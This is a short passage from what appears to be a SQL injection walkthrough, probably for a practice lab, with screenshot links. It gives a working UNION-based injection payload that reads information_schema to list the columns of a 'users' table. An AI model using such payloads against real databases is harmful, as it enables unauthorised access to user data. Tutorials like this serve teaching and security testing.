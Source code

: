 ![Alt text](images/SQLI_GET/Base-tables.png)

### Now we see something Juicy: 'users' Now we will create a query very similar to the last, except instead of tables, we will need to see what columns in 'users' are interesting. Search for:

`World' union select 1, user(), version(), 4, (SELECT GROUP_CONCAT(column_name, '\n') FROM information_schema.columns WHERE table_name = 'users'), 6, 7-- -`

![Alt text](images/SQLI_GET/users-columns.png)
